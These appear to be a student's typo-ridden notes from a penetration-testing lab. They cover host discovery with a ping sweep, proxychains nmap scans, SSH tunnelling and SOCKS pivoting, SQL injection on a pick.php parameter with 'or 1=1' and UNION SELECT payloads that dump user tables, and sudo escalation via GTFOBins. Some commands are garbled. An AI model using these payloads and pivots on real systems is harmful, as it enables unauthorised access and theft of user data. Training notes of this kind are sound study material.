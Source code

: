 · enumerate other networks: cat /etc/hosts gives us a new ip address 192.168.28.1181 WebApp

· scan that network with for i in {1..255};do (ping -c 1 192.168.28.$i | grep "bytes from"&);done

· check root web directory ls -la /var/www/html/ to ensure website is fully enumerated

· no need to priv esc

· logging tho -->

o ps -elf | grep rsyslog --> cat /etc/rsyslog.conf or cat /etc/ryslog.d/

o cat /etc/crontab

o cd /home

· go back to scnnaing IP addresses

o proxyhcains nmap -Pn 192.168.28.181

§ web and 22

· proxyhcains nmap -Pn 192.168.28.181 --scripts http-enum because it has web

o proxyhcains nmap -Pn 192.168.28.172

§ just ssh (22)

ssh user2@ip -L 1111:NEED TO FIX from instructor

· firefox to 192.168.28.181

· see that it has a table, so SQL Injection

o seince dealing with numner pick.php?product=6 or 1=1 but try other numbers in product to see what works. It works for 7 tho so pick.php?product=7 or 1=1 so it's vulnerable to SQL injection

o now you need to find the columns needed for union select

§ product=7 UNION 1,2,3 --> this works, if you do 3,4 or 1,2 it throughs an error sayin gthings don't exsist, so need the right number of columns, which is 3. This tells us how it is formatted vs how it is viewed to you

§ product=7 UNION SELECT table_schema, column_name, table_name, FROM information_schema.columns

§ now that you know all the data bases, we care about the siteuser database so product=7 UNION SELECT user_id,name,username FROM siteuser.users (columns from database_name.table_name). This should give use a few more usernames and databases

· most importantly is lee roth and Aaron

NOW ON SENSORROUND · now built new tunnel: ssh user2@10.50.25.76 1111:192.168.28.172:22

· get onto Aaron: ssh Aaron@localhost -p 1111 -D 9050

· now get bash shell bash

· see who Aaron can talk to: cat /etc/hosts

· see ip address ports for i in {1..255};do (ping -c 1 192.168.28.$i | grep "bytes from"&);done

· see home: cd /home ls -la

· SEE IF YOU CAN ESCALATE: sudo -l --> gtfobins --> find --> sudo --> read what it does and copy and paste into it to see if you can get root --> type bash again to get a a bash shell
